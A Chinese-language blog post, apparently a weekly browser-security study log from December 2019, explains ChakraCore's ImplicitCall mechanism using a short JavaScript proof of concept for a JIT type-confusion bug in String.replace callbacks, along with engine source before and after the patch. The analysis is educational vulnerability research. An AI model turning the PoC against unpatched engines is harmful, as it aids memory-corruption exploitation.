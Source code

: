 ```yaml
---
layout: post
title:  "浏览器安全周报 2019.12.02 - 2019.12.06"
date:   2019-12-06 18:00:00 +520
categories: Browser_Security
---
```


上周五笔记本送修，水果店告诉我没有配件现货，订货加维修可能要一周时间，还以为这周的安全周报没法写了，结果周日就告诉我维修完成可以去拿，这售后可以啊！

这周主要是看ChakraCore的一些内部机制，比如回调相关的ImplicitCall机制

主要是学习的elli0tn0phack师傅的文章《Chakra漏洞调试笔记1——ImplicitCall》，这一系列文章我学到了很多，当然目前只是读了几遍，其中很多的知识点我都还在一点一点的学习，这周主要把ImplicitCall机制给学习清楚了，这里也感谢elli0tn0phack师傅和Sakura师傅耐心的指导，感谢师傅们！
- https://www.anquanke.com/post/id/180551

elli0tn0phack师傅在今年的BlueHat Shanghai也有关于浏览器安全相关的精彩演讲《Browser Script Engine Zero Days in 2018》
- https://images.seebug.org/archive/Browser_Script_Engine_Zero_Days_in_2018-EN.pdf
- https://www.microsoft.com/en-us/videoplayer/embed/RE39Zq1

这个会议的官网上有本次会议的大部分视频以及所有的Slides
- https://www.microsoft.com/china/bluehatshanghai/2019/#Agenda

关于ImplicitCall机制，它是用于防止执行回调修改了JS对象，但是JIT不知道的情况，比如`valueOf`回调里修改了数组的长度，但是JIT循环的时候还是缓存的长度，那就会造成一个越界访问

Poc
```
function main() {
    let arr = [1.1, 1.1, 1.1, 1.1, 1.1];
    function opt(f) {
        arr[0] = 1.1;
        arr[1] = 2.3023e-320 + parseInt('a'.replace('a', f));
        arr[2] = 1.1;
        arr[3] = 1.1;
    }

    let r0 = () => '0';
    for (var i = 0; i < 0x1000; i++)
        opt(r0);

    opt(() => {
        arr[0] = {};
        return '0';
    });

    print(arr[1]);
}

main();
```

这个漏洞的成因是因为在JITed Code里触发回调修改了数组`arr`的类型，但是JIT Compiler没有意识到这一点，导致JS层数组修改了类型，但是引擎还把数组当作浮点数数组进行赋值操作

正常情况下JIT Compiler是考虑了回调改变对象内存布局这种情况的，具体实现由`Js::Var ExecuteImplicitCall`来完成
```
template <class Fn>
inline Js::Var ExecuteImplicitCall(Js::RecyclableObject * function, Js::ImplicitCallFlags flags, Fn implicitCall)
{
    // For now, we will not allow Function that is marked as HasNoSideEffect to be called, and we will just bailout.
    // These function may still throw exceptions, so we will need to add checks with RecordImplicitException
    // so that we don't throw exception when disableImplicitCall is set before we allow these function to be called
    // as an optimization.  (These functions are valueOf and toString calls for built-in non primitive types)

    Js::FunctionInfo::Attributes attributes = Js::FunctionInfo::GetAttributes(function);

    // we can hoist out const method if we know the function doesn't have side effect,
    // and the value can be hoisted.
    // 没有Side Effect的函数可以直接调用
    if (this->HasNoSideEffect(function, attributes))
    {
        // Has no side effect means the function does not change global value or
        // will check for implicit call flags
        return implicitCall();
    }

    // Don't call the implicit call if disable implicit call
    // 如果ImplicitCall被禁用表示不允许调用
    if (IsDisableImplicitCall())
    {
        AddImplicitCallFlags(flags);
        // Return "undefined" just so we have a valid var, in case subsequent instructions are executed
        // before we bail out.
        return function->GetScriptContext()->GetLibrary()->GetUndefined();
    }

    if ((attributes & Js::FunctionInfo::HasNoSideEffect) != 0)
    {
        // Has no side effect means the function does not change global value or
        // will check for implicit call flags
        return implicitCall();
    }

    // Save and restore implicit flags around the implicit call

    // 此时明确有回调且有Side Effect，所以设置saveImplicitCallFlags的值
    Js::ImplicitCallFlags saveImplicitCallFlags = this->GetImplicitCallFlags();
    Js::Var result = implicitCall();
    this->SetImplicitCallFlags((Js::ImplicitCallFlags)(saveImplicitCallFlags | flags));
    return result;
}
```

函数`RegexHelper::StringReplace`实现的地方，可以看到直接调用用户定义的函数，没有做检查
```
Var RegexHelper::StringReplace(JavascriptString* match, JavascriptString* input, JavascriptFunction* replacefn)
{
    CharCount indexMatched = JavascriptString::strstr(input, match, true);
    ScriptContext* scriptContext = replacefn->GetScriptContext();
    Assert(match->GetScriptContext() == scriptContext);
    Assert(input->GetScriptContext() == scriptContext);

    if (indexMatched != CharCountFlag)
    {
        Var pThis = scriptContext->GetLibrary()->GetUndefined();
        // 调用用户定义的函数
        Var replaceVar = CALL_FUNCTION(scriptContext->GetThreadContext(), replacefn, CallInfo(4), pThis, match, JavascriptNumber::ToVar((int)indexMatched, scriptContext), input);  // <--
        JavascriptString* replace = JavascriptConversion::ToString(replaceVar, scriptContext);
        const char16* inputStr = input->GetString();
        const char16* prefixStr = inputStr;
        CharCount prefixLength = indexMatched;
        const char16* postfixStr = inputStr + prefixLength + match->GetLength();
        CharCount postfixLength = input->GetLength() - prefixLength - match->GetLength();
        CharCount newLength = prefixLength + postfixLength + replace->GetLength();
        BufferStringBuilder bufferString(newLength, match->GetScriptContext());
        bufferString.SetContent(prefixStr, prefixLength,
                                replace->GetString(), replace->GetLength(),
                                postfixStr, postfixLength);
        return bufferString.ToString();
    }
    return input;
}
```

为什么最后面的标志位可以用于判断是否有回调呢？

我们来看Patch后的调用，传入的是`ImplicitCall_Accessor`，对应的值是`0x04`，最后通过`|`就不是原来的值，所以JIT在检查的时候，一看`ImplicitCallFlags`不是原来的值，那就说明`ExecuteImplicitCall`判断这里存在回调，所以直接BailOut到Interpreter去解释执行
```
ThreadContext* threadContext = scriptContext->GetThreadContext();
Var replaceVar = threadContext->ExecuteImplicitCall(replacefn, ImplicitCall_Accessor, [=]()->Js::Var
{
    Var pThis = scriptContext->GetLibrary()->GetUndefined();
    return CALL_FUNCTION(threadContext, replacefn, CallInfo(4), pThis, match, JavascriptNumber::ToVar((int)indexMatched, scriptContext), input);
});

enum ImplicitCallFlags : BYTE
{
    ImplicitCall_HasNoInfo = 0x00,
    ImplicitCall_None = 0x01,
    ImplicitCall_ToPrimitive = 0x02 | ImplicitCall_None,
    ImplicitCall_Accessor = 0x04 | ImplicitCall_None,
    ImplicitCall_NonProfiledAccessor = 0x08 | ImplicitCall_None,
    ImplicitCall_External = 0x10 | ImplicitCall_None,
    ImplicitCall_Exception = 0x20 | ImplicitCall_None,
    ImplicitCall_NoOpSet = 0x40 | ImplicitCall_None,
    ImplicitCall_All = 0x7F,
    ImplicitCall_AsyncHostOperation = 0x80
};
```

之前分析的SamsungSMT逻辑提权漏洞，详细分析写了一半后来就没动了，看看下周写完给发出来吧，我喜欢逻辑漏洞，剩下的时间多看看编译原理，现在再来看编译原理感觉能和编译器很多知识点对应上，很有趣:))
